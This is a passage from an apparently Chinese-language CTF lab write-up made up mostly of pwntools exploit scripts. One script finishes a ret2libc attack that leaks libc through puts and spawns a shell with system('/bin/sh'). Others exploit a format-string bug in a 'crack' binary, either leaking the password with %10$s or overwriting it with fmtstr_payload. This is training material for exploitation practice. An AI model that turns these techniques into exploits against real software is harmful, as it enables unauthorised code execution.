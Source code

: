 ```python  
  
r.sendline(payload)  
sleep(0.2)  
  
libc_base = u32(r.recv(4)) - libc.sym["puts"]  
success("libc_base : " + hex(libc_base))  
system_addr = libc_base + libc.sym["system"]  
bin_sh_addr = libc_base + libc.search("/bin/sh").next()  
  
payload = p32(0)  
payload += p32(system_addr) # system("/bin/sh")  
payload += p32(0)  
payload += p32(bin_sh_addr)  
r.sendline(payload)  
  
r.interactive()  
```  
  
## lab7  
格式化字符串，直接泄露password的值  
  
```python  
#!/usr/bin/env python  
# -*- coding: utf-8 -*-  
from pwn import *  
context.log_level = "debug"  
context.terminal = ["tmux", "split", "-h"]  
r = process("./crack")  
  
#gdb.attach(r, """  
#	b *0x080486E9  
#""")  
  
password_addr = 0x804a048  
r.recvuntil("?")  
  
  
r.sendline(p32(password_addr) + "#" + "%10$s" + "#" )  
r.recvuntil("#")  
p = r.recvuntil("#")  
password = u32(p[:4])  
success("password: " + str(password))  
r.recvuntil(":")  
r.sendline(str(password))  
r.interactive()  
```  
或者直接更改password的值  
```python  
from pwn import *  
context.log_level = 'debug'  
cn = process('./crack')  
p_pwd = 0x0804A048  
fmt_len = 10  
cn.recv()  
pay = fmtstr_payload(fmt_len,{p_pwd:1})  
cn.sendline(pay)  
cn.recv()  
cn.sendline('1')  
cn.recv()  
cn.recv()  
```  
`fmtstr_payload`函数可以直接生成payload。简单使用如下:  
  